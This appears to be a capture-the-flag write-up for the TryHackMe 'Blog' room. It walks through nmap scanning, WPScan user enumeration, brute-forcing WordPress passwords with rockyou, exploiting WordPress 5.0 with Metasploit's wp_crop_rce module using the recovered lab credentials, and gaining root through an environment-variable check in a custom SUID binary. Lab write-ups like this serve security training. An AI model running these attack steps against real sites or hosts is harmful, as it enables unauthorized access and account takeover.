









Blog is a medium-difficulty TryHackMe room built around careful enumeration. The target initially looks like a small WordPress site, but the useful path comes from connecting several clues: exposed services, WordPress users, a weak password, a vulnerable CMS version, and a custom SUID binary.
If you want to try the room yourself, you can access it on TryHackMe: Blog. Replace <target-ip> with the address assigned to your machine.
Step 1: Enumerating the Attack Surface
I began with a version and default-script scan to identify the services exposed by the target.
nmap -sC -sV <target-ip>The scan revealed SSH, HTTP, and SMB-related ports. SSH did not provide a starting point because no credentials were available, so I focused on the web service and the hostname it expected.

Step 2: Discovering the WordPress Application
The site behaved differently when accessed through its configured hostname. I mapped the target locally before continuing with web enumeration.
<target-ip> blog.thm
After adding the IP address of the target machine with the blog.thm in the hosts file, we tried to enumerate the web page by opening it in a Browser
Opening http://blog.thm/ showed a WordPress installation. This answered the room's CMS question and gave me a clear direction for the next stage.


Step 3: Enumerating WordPress Users
I used WPScan to identify the WordPress version, usernames, and other publicly visible details.
wpscan --url http://blog.thm/ -e u,vp,vtThe enumeration exposed the usernames kwheel, bjoel, Karen Wheeler, and Billy Joel. I placed the discovered names in a small local file so the credential test remained focused instead of using an unnecessarily broad username list.
kwheel
bjoel
Karen Wheeler
Billy JoelStep 4: Recovering WordPress Credentials
The room permits a password audit through the WordPress XML-RPC functionality. I tested the known users against the supplied wordlist with WPScan.
wpscan --url http://blog.thm/ -U users.txt -P /usr/share/wordlists/rockyou.txtThe audit recovered credentials for kwheel: cutiepie1. This also confirmed that XML-RPC was enabled and accepting the password audit.

Step 5: Getting a Web Shell
The WordPress version in the room is vulnerable to a remote command execution issue. With the recovered account, I used the corresponding Metasploit module and configured the target host and WordPress credentials.
use exploit/multi/http/wp_crop_rce
set RHOSTS <target-ip>
set USERNAME kwheel
set PASSWORD cutiepie1
runThe room uses WordPress 5.0, which is the version relevant to the exploit. The exploit opened a Meterpreter session as www-data. I converted it to a regular shell and upgraded the terminal so subsequent commands behaved predictably.
shell
python -c 'import pty; pty.spawn("/bin/bash")'
id
Step 6: Investigating the User Files
While checking the home directories, I found a decoy user.txt and a termination PDF belonging to the bjoel account. The document contained a clue related to Rubber Ducky Inc, which became useful when locating the real flag later.
cd /home/bjoel
ls -la
cat user.txt
download /home/bjoel/Billy_Joel_Termination_May20-2020.pdfThe document explained that Billy Joel had worked for Rubber Ducky Inc. The clue pointed toward the USB-mounted directory, but I still needed root privileges before I could read the real flag there.
Step 7: Analyzing the SUID Checker
I searched for SUID binaries owned by root and found a custom executable at /usr/sbin/checker.
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/checker
Running the binary normally returned a message indicating that the current user was not an administrator. I transferred the executable for local analysis and confirmed that it checks for an environment variable named admin. When that variable is present, the SUID program launches a shell with its elevated privileges.


export admin=true
/usr/sbin/checker
whoami
cat /root/root.txt
find / -name user.txt 2>/dev/null
cat /media/usb/user.txtThe resulting shell ran as root. I then searched the filesystem for the real user flag and found it under /media/usb/, while the root flag was in the usual root home directory. The /home/bjoel/user.txt file was a decoy.
Key Takeaways
- Hostname-based virtual hosting can hide the intended application during initial enumeration.
- WordPress user enumeration can turn a large password search into a targeted audit.
- CMS version and plugin research matters after valid credentials are recovered.
- Custom SUID binaries deserve both runtime testing and local reverse engineering.
- Decoy files can still contain useful context even when they are not the final flag.